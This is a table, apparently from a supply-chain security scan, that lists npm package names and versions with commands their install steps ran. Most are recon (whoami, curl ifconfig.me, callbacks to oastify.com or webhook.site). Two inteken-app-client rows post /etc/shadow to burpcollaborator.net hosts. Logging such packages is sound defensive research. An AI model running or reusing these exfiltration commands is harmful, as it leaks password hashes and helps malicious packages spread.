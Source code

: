 <tr><td>asherah</td><td>1.2.9</td><td><code>curl</code></td><td><code>curl -s -L --fail -O --retry 999 --retry-max-time 0 https://github.com/godaddy/asherah-cobhan/releases/download/v0.4.25/libasherah-x64.a</code></td></tr>
<tr><td>bbc-iplayer-sounds-chatbot</td><td>1.2.3</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>bbc-iplayer-sounds-chatbot</td><td>5.2.3</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>ccfedrtest-poc</td><td>1.0.3</td><td><code>ping</code></td><td><code>ping 435dvf5lwsuqc7k2zmmip3zfm6sxgn4c.oastify.com</code></td></tr>
<tr><td>centurylink</td><td>4.1.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>5.1.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>6.1.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>7.1.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>8.1.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>9.1.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>9.2.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>9.4.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>9.5.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>9.8.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>centurylink</td><td>9.9.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>chain-list</td><td>20.0.0</td><td><code>curl</code></td><td><code>curl ifconfig.me</code></td></tr>
<tr><td>course-structure-debugger</td><td>10.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>course-structure-debugger</td><td>10.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>course-structure-debugger</td><td>11.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>course-structure-debugger</td><td>11.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>darkhat-hard-to-find-package-do-not-require-it</td><td>1.0.1</td><td><code>curl</code></td><td><code>curl https://webhook.site/76a40c42-6fe4-4caf-9b37-49c5eda9ae20?darkhat=darkhat</code></td></tr>
<tr><td>feature-flag-framework</td><td>9.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>feature-flag-framework</td><td>9.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>fiji-core-cryptopool</td><td>9.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>fiji-core-cryptopool</td><td>9.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>fiji-core-foc</td><td>9.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>fiji-core-foc</td><td>9.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>fiji-core-foundation</td><td>9.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>fiji-core-foundation</td><td>9.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>fiji-core-framework</td><td>9.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>fiji-core-framework</td><td>9.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>goingwithflow</td><td>6.9.9</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>goingwithflow</td><td>9.8.9</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>inteken-app-client</td><td>9.9.1</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/shadow 25371d442238xdede680mk624kgu48sasafdh4nubj.burpcollaborator.net</code></td></tr>
<tr><td>inteken-app-client</td><td>9.9.5</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/shadow 70839db2341del32g9cjsa8u8mo6t3fetd98lzrqff.burpcollaborator.net</code></td></tr>